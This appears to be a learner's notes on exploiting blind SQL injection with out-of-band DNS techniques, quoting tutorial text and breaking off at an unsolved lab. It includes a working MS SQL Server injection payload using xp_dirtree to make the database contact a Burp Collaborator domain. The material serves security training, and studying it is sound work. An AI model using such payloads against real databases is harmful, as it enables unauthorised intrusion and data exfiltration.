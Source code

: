 # Exploiting blind SQL injection using out-of-band (OAST) techniques

*An application might carry out the same SQL query as the previous example but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.*

*In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.*

*A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.*

The easiest and most reliable tool for using out-of-band techniques is Burp Collaborator. This is a server that provides custom implementations of various network services, including DNS. It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Burp Suite Professional includes a built-in client that's configured to work with Burp Collaborator right out of the box. For more information, see the documentation for Burp Collaborator.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This causes the database to perform a lookup for the following domain:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

You can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

## Solving the Lab: Blind SQL injection with out-of-band interaction

i just realize that i need burpsuite pro for this, so...